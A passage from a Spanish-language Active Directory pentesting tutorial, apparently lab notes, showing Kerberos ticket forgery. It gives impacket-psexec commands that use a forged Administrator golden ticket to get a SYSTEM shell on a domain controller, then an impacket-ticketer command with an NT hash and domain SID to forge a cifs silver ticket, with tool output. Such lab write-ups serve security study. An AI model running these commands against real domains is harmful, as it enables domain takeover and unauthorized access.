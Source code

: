 Ahora lo que vamos hacer es generar un `TGS` a partir de este `TGT` que hemos generado de forma manual del usuario `Administrador` como vimos anteriormente.

```shell
export KRB5CCNAME=/home/kali/Administrator.ccache
impacket-psexec corp.local/Administrator@DC01.corp.local -k -no-pass
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file xefNbHJn.exe
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service OgZZ on DC01.corp.local.....
[*] Starting service OgZZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Como vemos ha funcionado, sin necesidad de que se nos monte un `TGT`, lo hemos echo de forma manual y funciona perfectamente.

Esto que acabamos de ver es el `Golden Ticket`, pero ahora vamos a realizar la tecnica de `Silver Ticket`, que seria de la siguiente forma:

```shell
impacket-ticketer -nthash 3f6f27ccbcb235da4602454dff0efb47 -domain-sid S-1-5-21-3352250647-938130414-2449934813 -domain corp.local -spn cifs/DC01.corp.local Administrator
```

En este caso esta tecnica es para generar un `Ticket` de un servicio especifico que queremos utilizar en este caso `cifs` bajo el nombre del usuario `Administrador`.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for corp.local/Administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
```